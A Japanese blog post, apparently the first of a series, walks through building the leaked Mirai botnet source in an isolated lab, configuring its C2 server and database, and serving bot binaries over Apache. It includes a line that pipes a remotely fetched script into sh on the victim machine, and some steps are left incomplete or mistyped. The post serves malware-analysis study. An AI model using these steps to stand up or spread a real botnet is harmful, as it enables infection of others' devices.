

# 目次

1. [はじめに](#はじめに)
2. [Miraiって？](#Miraiって？)
4. [環境構築](#環境構築)
5. [動的解析](#動的解析)
6. [まとめ](#まとめ)
7. [参考文献](#参考文献)
8. [第二回へつづく](#第二回へつづく)

# はじめに
この記事は3部構成で、これは第一回の記事です。
第一回→動的解析
第二回→ソースコードの解析
第三回→Ghidraによる静的解析

今回は、MiraiというIoT機器を標的に攻撃を行うマルウェアを解析した結果を記しました。第一回の本記事では、Miraiを自身の解析環境に構築して動的解析を行うまでを範囲としています。

※本投稿は悪意のある行為を助長するためのものではなく、あくまでマルウェアの挙動を学習したい方やマルウェア解析者を対象としたものです。また、本投稿は特定の誰かの行動を支持したり批判したりすることは一切なく、常に中立の第三者としての発言に基づいています。

# Miraiって？
-出荷時のデフォルトパスワードとユーザ名を使っているホームルータや防犯カメラのようなIoTデバイスに感染し、ボットネットの一部にする。
-2016年にKrebs On SecurityというウェブサイトをDDおS攻撃する等して流行。
-2016年にAnna-senpaiと名乗る人物がフォーラムにソースコードをリークしており、現在でも調べるとGitHub等でソースコードの閲覧が可能。
-ソースコードが公開されていることもあり、現在でもPastやOMGのような、Miraiの亜種が多く出回っている
-IoTデバイスの脆弱なデフォルトのパスワードとユーザ名を変更することが対策になる。
***
マルウェアのソースコードがリークされることはたまにあるみたいですが、Miraiは有名なマルウェアなので参考にできる情報も多くソースコードの開設もされているので、初心者が解析の練習するにはちょうど良い検体かなと思って選定しました。
ソースコードがどんな経緯でリークしたかは不明ですが、Anna-senpaiと名乗る人物がフォーラムでリークしたそうです。
マルウェアの教科書にも書いてありましたが、Contiというランサムグループがあり、そのグループのランサムのソースコードは金銭のいざこざで揉めてソースコードが流出したそうです。

## Miraiは初心者解析者におすすめ
Miraiの解析は、マルウェアの解析を始めたばかりの人や、これから始める人におすすめです。
なぜならソースコードがリークしているため、自身の解析の答え合わせができるためです。
私自身jrの身ですが、解析を初めてまず困るのは、「自分の解析結果が合っているかわからない」ことです。
アセンブリやデコンパイル結果を今後読めるようになっていくには、ソースコードのどの部分が、GhidraやIDAでどのように見えるかの経験値をためていく必要があると考えています。
Miraiはマルウェアとしての知名度や影響度が大きいので解析できた際のやりがいも大きく、ソースコードと静的解析の照らし合わせができるのでおすすめの検体と言えます。

## 参考にしたサイト
-https://atmarkit.itmedia.co.jp/ait/articles/1611/08/news028.html
-https://github.com/jgamblin/Mirai-Source-Code
-https://qiita.com/ueyasu/items/7eb4640d494576664109
-https://github.com/Glowman554/mirai
-https://en.wikipedia.org/wiki/Mirai_(malware)#:~:text=The%20Mirai%20botnet%20was%20first%20found%20in%20August,host%20OVH%2C%20and%20the%20October%202016%20Dyn%20cyberattack
-マルウェアの教科書

# 環境構築
**動的解析**とはその名の通り、検体を実際に動かしてその挙動を観察することです。
安全に検体を動かせるよう、今回はHyper-V上に解析環境を構築します。

解析環境の構築方法については手順を割愛しますが、構成は以下の通りです。

- REMnux (C2サーバ)
- CentOS (内部ルーター)
- Ubuntu (Victim)

1.
必要なツールのインストール
```
sudo apt install gcc golang electric-fence mysql-server mysql-client screen dialog python3 apache2 -y
```

2.
./mirai/debugフォルダー内にenc.cがある。これをコンパイルしてtable.cに入れる必要がある。
mirai/ディレクトリで以下を実行してコンパイルする
クロスコンパイル関連のエラー出ても無視してOK
実行すると、mirai/debugフォルダーにencというコンパイル済みのバイナリが表示される
```
./build.sh debug telnet
```

3.


## Miraiの方
まずクロスコンパイラを設定する
```
sudo bash ./tools/compilers.sh
```

debugフォルダとreleaseフォルダを作成する
```
sudo bash ./setup.sh
```

これを実行すると、./mirai/deubgにencという名前の実行ファイルが作られる。
```
sudo bash ./build.sh debug telnet
```

botが接続するドメイン名の難読化などに使う
例えば、

```
./debug/enc string example.com
```


### C2の設定
mysql-serverを設定する
```
cat ./tools/db.sql | dsudo mysql
sudo systemctl restart mysql
```

以下でmysql-serverにログインする
```
mysql -u root -p
```

USEステートメントでデータベースを選択する
今回はmiraiというデータベースを操作
```
USE database_name;
```

以下を実行してmysqlのrootユーザーのパスワードを設定
```
INSERT INTO users VALUES (NULL, 'root', 'Nodaysoff！', 0, 0, 0, 0, -1, 1, 30, '');
```

./mirai/cnc/main.goを書き換える
```go

```


## botとC2のビルド
コンパイルする

```
bash ./build.sh debug telnet
bash ./build.sh release telnet
```


## 実行
c2を実行してmysqlの画面を開いて状態をリアルタイムで確認する
```
cd debug
screen -S mirai-cnc sudo ./cnc
```

botを実行
```
cd debug
screen -S mirai-bot sudo ./mirai.dbg
```

telnetでローカルホストにつなぎ、先ほどmysqlのrootアカウントに設定したパスワードを入力してC2のbotnetにログインする
```
tlenet localhost
```


?で攻撃のタイプを確認できる



バイナリをapache2にインストールする
```
cd release
sudo bash ../apache2.sh
```
上記によって、/var/www/html/binsにbot配布用のバイナリがつくられる


Victim上で、curl http://<your apache2 ip>/bins/bins.sh |shして、バイナリをダウンロードおよび実行する


dvrHelperがLinuxの実行ファイルであるELFであり、これは複数のバイナリを


## Cloud ServiceのSandboxで検体を実行してみる
VTでは引っかからないものの、MetaDefenderというやつでしっかりマルウェア判定くらってる。挙動監視みたいなことしてるのかな。


検体がLinux向けなのでNoribenもx32dbgも使えず。Cuckooは構築面倒くさくてやめた。
elfファイルとかIoTデバイスを狙ったマルウェア向けのサンドボックスではLISAというやつが良さそう。
https://excel.fit.vutbr.cz/submissions/2019/058/58.pdf


